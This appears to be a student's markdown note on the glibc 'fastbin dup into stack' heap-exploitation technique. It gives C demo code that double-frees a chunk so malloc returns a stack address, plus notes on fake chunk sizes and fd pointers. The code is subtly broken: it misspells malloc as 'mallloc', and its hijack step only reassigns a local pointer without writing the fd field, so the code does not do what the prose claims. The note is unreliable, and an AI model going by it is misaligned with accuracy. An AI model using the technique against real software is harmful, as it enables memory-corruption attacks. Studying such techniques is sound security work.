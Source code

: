 # Fastbin duplicate into STACK
> LongChampion, 12/03/2020

> Please read `fastbin_dup.md` to know how to duplicate the chunk in fastbin linked list.

My code:
```
#include <stdlib.h>

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

int main()
{
    struct Chunk FAKE;
    void *a = malloc(100);
    void *b = mallloc(100);

    free(a), free(b), free(a);

    void *one = malloc(100);
    void *two = malloc(100);

    one = &FAKE;
    FAKE.size = 112;

    void *three = malloc(100);
    void *STACK = malloc(100);
}
```
The ideal is simple: we use *double free* to duplicate chunk `a`, then call `malloc` to receive it again. When we modify content of `one`, we also modify content of `three` (although which haven't allocated yet). The stage of fastbin before *hijacking* is:
> HEAD -> a -> TAIL

After *hijacking*:
> HEAD -> a -> FAKE -> XXXX

After allocating `three`:
> HEAD -> FAKE -> XXXX

After allocating `STACK`:
> HEAD -> XXXX

Now `STACK` will point to FAKE.fd (not FAKE) and we can use this pointer to overwrite the stack frame for more hacking.

# IMPORTANT NOTE
- Please remember that the `STACK` pointer will point to `FAKE.fd`, not `FAKE`.
- `one` pointer is set to point to `FAKE` (the begining of `FAKE` chunk), not point to `FAKE.fd`. **The machanism of fd pointer is different in various type of bins**.
    > For example, fd pointer of chunk in `tcache_bin` is point to fd pointer of next chunk instead of chunk's header.
- The `FAKE.size` must be equal to size of chunk `a` (formally, equal to size of any chunk in same fastbin). Read `calc_tcache_idx.md` to know how to calculate this size.
- The `PREV_INUSE` flag of `FAKE.size` (in this situation) is not important, so `FAKE.size` can be set to either 112 or 113.
- The `XXXX` in fastbin after *hijacking* can be control by set `FAKE.fd` to the suitable address. You can make your exploitation better by set `FAKE.fd = c` (`c` is another chunk which same size) and set `c.fd = TAIL`, then the stage of fastbin will be:
    > HEAD -> a -> FAKE -> c -> TAIL (PERFECT !!!)
